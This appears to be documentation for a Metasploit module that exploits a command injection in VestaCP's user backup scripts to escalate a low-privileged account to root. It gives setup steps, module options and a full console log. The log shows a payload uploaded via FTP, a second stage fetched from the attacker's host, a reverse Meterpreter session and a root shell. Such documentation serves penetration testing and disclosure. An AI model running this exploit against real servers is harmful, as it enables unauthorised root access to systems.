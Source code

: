 ## Vulnerable Application
This module exploits command injection vulnerability in v-list-user-backups bash script file. Low privileged authenticated users can execute arbitrary commands under the context of the root user.

An authenticated attacker with a low privileges can inject a payload in the file name starts with dot. During the user backup process, this file name will be evaluated by the v-backup-user bash scripts. As result of that backup process, when an attacker try to list existing backups injected payload will be executed.
        
## Installing the Vulnerable Application on Ubuntu 18.03 LTS

You can install Vesta Control Panel on Ubuntu 18.04 LTS server with following commands.

```
ssh root@your.server
curl -O http://vestacp.com/pub/vst-install.sh
bash vst-install.sh
```

Once you have finished the installation, perform following actions in order to create a unprivileged user.

1- Go to https://IP_ADDR:8083/

2- Login with your administrator account.

3- Click on a "User" section under the top navigation menu. When you move your mouse over the "User" text,it will be 
turned to orange colour. That's link you need to click!

4 - Now you must be on https://IP_ADDR:8083/list/user/ page.

5 - Click on a green plus sign on the left side. When you move your mouse on it, it will say "ADD USER".

6 - Now you are seeing a user creation form. "user, password, email, first name, last name" fields are required.
Leave package and language options as it. It does not affect on exploitation.

7 - Log out from your admin account.

8 - Go back to URL on the first step. 

9 - Try to login with unprivileged user.



## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use exploit/linux/http/vestacp_exec `
3. Set `RHOST`
4. Set `LHOST`
4. Set `USERNAME`
4. Set `PASSWORD`
4. Set `SRVHOST`
4. Set `SRVPORT`
7. Run `exploit`
8. **Verify** that you are seeing `Successfully authenticated to the FTP service` in console.
9. **Verify** that you are seeing `Successfully uploaded the payload as a file name` in console.
9. **Verify** that you are seeing `Successfully authenticated to the HTTP Service` in console.
9. **Verify** that you are seeing `Scheduled backup has ben started. Exploitation may take up to 5 minutes.` in console.
9. **Verify** that you are seeing `It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...` in console.
9. **Verify** that you are seeing `First stage is executed ! Sending 2nd stage of the payload` in console.
15. **Verify** that you are getting meterpreter session.

## Ubuntu 18.04 LTS with VestaCP 0.9.26

```
msf5 > use exploit/linux/http/vestacp_exec 
msf5 exploit(linux/http/vestacp_exec) > set RHOSTS 192.168.74.218
RHOSTS => 192.168.74.218
msf5 exploit(linux/http/vestacp_exec) > set USERNAME user11
USERNAME => user11
msf5 exploit(linux/http/vestacp_exec) > set PASSWORD qwe123
PASSWORD => qwe123
msf5 exploit(linux/http/vestacp_exec) > set LHOST 192.168.74.1 
LHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVHOST 192.168.74.1 
SRVHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVPORT 8081
SRVPORT => 8081
msf5 exploit(linux/http/vestacp_exec) > run
[*] Exploit running as background job 32.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.74.1:4444 
[*] 192.168.74.218:8083 - Using URL: http://192.168.74.1:8081/poSeL7s
msf5 exploit(linux/http/vestacp_exec) > [*] 192.168.74.218:8083 - Second payload download URI is http://192.168.74.1:8081/poSeL7s
[+] 192.168.74.218:21 - Successfully authenticated to the FTP service
[+] 192.168.74.218:21 - The file with the payload in the file name has been successfully uploaded.
[*] 192.168.74.218:8083 - Retrieving cookie and csrf token values
[+] 192.168.74.218:8083 - Cookie and CSRF token values successfully retrieved
[*] 192.168.74.218:8083 - Authenticating to HTTP Service with given credentials
[+] 192.168.74.218:8083 - Successfully authenticated to the HTTP Service
[*] 192.168.74.218:8083 - Starting scheduled backup. Exploitation may take up to 5 minutes.
[+] 192.168.74.218:8083 - Scheduled backup has been started ! 
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[+] 192.168.74.218:8083 - First stage is executed ! Sending 2nd stage of the payload
[*] Sending stage (53755 bytes) to 192.168.74.218
[*] Meterpreter session 8 opened (192.168.74.1:4444 -> 192.168.74.218:58790) at 2020-04-11 14:35:23 +0300

msf5 exploit(linux/http/vestacp_exec) > sessions -i 8 
[*] Starting interaction with 8...

meterpreter > shell
Process 42978 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
meterpreter > shell
[+] 192.168.74.218:8083 - It seems scheduled backup is done ..! Triggering the payload <3

# 
```